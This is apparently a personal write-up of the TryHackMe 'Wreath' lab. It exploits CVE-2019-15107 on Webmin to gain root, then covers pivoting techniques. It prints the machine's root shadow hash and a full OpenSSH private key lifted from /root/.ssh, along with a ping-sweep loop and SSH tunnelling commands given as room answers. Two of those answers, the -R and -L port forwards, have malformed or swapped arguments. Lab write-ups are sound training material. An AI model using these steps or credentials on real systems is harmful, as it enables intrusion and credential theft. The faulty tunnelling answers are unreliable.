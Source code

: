 ```yaml
---
description: https://tryhackme.com/r/room/wreath
---
```


# 🔧 Wreath

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

After some enumeration on the system, i found that the server version was Miniserv 1.890 Webmin httpd, and there was an known CVE: CVE-2019-15107

```
./CVE-2019-15107.py 10.200.84.200
```

<figure><img src="../../.gitbook/assets/image (695).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

so we're in as root, we can go and look at the hashes in /etc/shadow:

root hash:

```
$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1
```

We are not able to crack the hash, but we remember we have ssh enabled, let's try to find an RSA key ->

in `/root/.ssh/id_rsa` you find a private key, copy paste it on your local machine ->

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

and connect via the key:&#x20;

```
ssh root@thomaswreath.thm -i sshkeywreath
```

<figure><img src="../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

I'll put the ssh key here if the session is terminated:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
jkDDIfoprO37/YkDKxPFqdIYW0UkzA60qzkMHy7n3kLhab7gkV65wHdIwI/v8+SKXlVeeg
0+L12BkcSYzVyVUfE6dYxx3BwJSu8PIzLO/XUXXsOGuRRno0dG3XSFdbyiehGQlRIGEMzx
hdhWQRry2HlMe7A5dmW/4ag8o+NOhBqygPlrxFKdQMg6rLf8yoraW4mbY7rA7/TiWBi6jR
fqFzgeL6W0hRAvvQzsPctAK+ZGyGYWXa4qR4VIEWnYnUHjAosPSLn+o8Q6qtNeZUMeVwzK
H9rjFG3tnjfZYvHO66dypaRAF4GfchQusibhJE+vlKnKNpZ3CtgQsdka6oOdu++c1M++Zj
z14DJom9/CWDpvnSjRRVTU1Q7w/1MniSHZMjczIrAAAFiMfOUcXHzlHFAAAAB3NzaC1yc2
EAAAGBALNKB2JZxVB05W7oXj0zaCE5LuDgR/Dsc0TfDt7TK6R6jR9yx2kERC4AHvapPXb0
AO6SW/Ver3y3PlZulywtSWPS46LvPQneAHEyfTq7mGV0w519IVtbzuQ6NW0o5AwyH6Kazt
+/2JAysTxanSGFtFJMwOtKs5DB8u595C4Wm+4JFeucB3SMCP7/Pkil5VXnoNPi9dgZHEmM
1clVHxOnWMcdwcCUrvDyMyzv11F17DhrkUZ6NHRt10hXW8onoRkJUSBhDM8YXYVkEa8th5
THuwOXZlv+GoPKPjToQasoD5a8RSnUDIOqy3/MqK2luJm2O6wO/04lgYuo0X6hc4Hi+ltI
UQL70M7D3LQCvmRshmFl2uKkeFSBFp2J1B4wKLD0i5/qPEOqrTXmVDHlcMyh/a4xRt7Z43
2WLxzuuncqWkQBeBn3IULrIm4SRPr5SpyjaWdwrYELHZGuqDnbvvnNTPvmY89eAyaJvfwl
g6b50o0UVU1NUO8P9TJ4kh2TI3MyKwAAAAMBAAEAAAGAcLPPcn617z6cXxyI6PXgtknI8y
lpb8RjLV7+bQnXvFwhTCyNt7Er3rLKxAldDuKRl2a/kb3EmKRj9lcshmOtZ6fQ2sKC3yoD
oyS23e3A/b3pnZ1kE5bhtkv0+7qhqBz2D/Q6qSJi0zpaeXMIpWL0GGwRNZdOy2dv+4V9o4
8o0/g4JFR/xz6kBQ+UKnzGbjrduXRJUF9wjbePSDFPCL7AquJEwnd0hRfrHYtjEd0L8eeE
egYl5S6LDvmDRM+mkCNvI499+evGwsgh641MlKkJwfV6/iOxBQnGyB9vhGVAKYXbIPjrbJ
r7Rg3UXvwQF1KYBcjaPh1o9fQoQlsNlcLLYTp1gJAzEXK5bC5jrMdrU85BY5UP+wEUYMbz
TNY0be3g7bzoorxjmeM5ujvLkq7IhmpZ9nVXYDSD29+t2JU565CrV4M69qvA9L6ktyta51
bA4Rr/l9f+dfnZMrKuOqpyrfXSSZwnKXz22PLBuXiTxvCRuZBbZAgmwqttph9lsKp5AAAA
wBMyQsq6e7CHlzMFIeeG254QptEXOAJ6igQ4deCgGzTfwhDSm9j7bYczVi1P1+BLH1pDCQ
viAX2kbC4VLQ9PNfiTX+L0vfzETRJbyREI649nuQr70u/9AedZMSuvXOReWlLcPSMR9Hn7
bA70kEokZcE9GvviEHL3Um6tMF9LflbjzNzgxxwXd5g1dil8DTBmWuSBuRTb8VPv14SbbW
HHVCpSU0M82eSOy1tYy1RbOsh9hzg7hOCqc3gqB+sx8bNWOgAAAMEA1pMhxKkqJXXIRZV6
0w9EAU9a94dM/6srBObt3/7Rqkr9sbMOQ3IeSZp59KyHRbZQ1mBZYo+PKVKPE02DBM3yBZ
r2u7j326Y4IntQn3pB3nQQMt91jzbSd51sxitnqQQM8cR8le4UPNA0FN9JbssWGxpQKnnv
m9kI975gZ/vbG0PZ7WvIs2sUrKg++iBZQmYVs+bj5Tf0CyHO7EST414J2I54t9vlDerAcZ
DZwEYbkM7/kXMgDKMIp2cdBMP+VypVAAAAwQDV5v0L5wWZPlzgd54vK8BfN5o5gIuhWOkB
2I2RDhVCoyyFH0T4Oqp1asVrpjwWpOd+0rVDT8I6rzS5/VJ8OOYuoQzumEME9rzNyBSiTw
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

### Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network.

#### Pivoting enumeration:&#x20;

```
arp -a
```

this will show you any IP addresses of hosts that the target has interacted with recently.

static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. `/etc/resolv.conf` on Linux may also identify any local DNS servers,

Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`

statically compiled copies of Nmap for different operating systems (along with various other tools) can be found in various places on the internet. A good (if dated) resource for these can be found [here](https://github.com/andrew-d/static-binaries).

_Note: The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external libraries (_`.so` _files on Linux, or_ `.dll` _files on Windows) -- these are referred to as "dynamic" programs. Static programs are compiled with these libraries built into the finished executable file._

***

If Nmap is not installed on the currently compromised server, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

_**If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called**** ****`id_rsa`**** ****and backgrounding the shell, what command would you use? (Assume your username is "kali")**_

```
ssh -R  22:172.16.0.100 kali@172.16.0.100:2222 -i id_rsa -fN
```

_**What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?**_

```
ssh -D 8000 user@target.thm -fN
```

_**If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.**_

```
ssh -L 8000:172.16.0.50:80 user@127.0.0.1 -fN
```

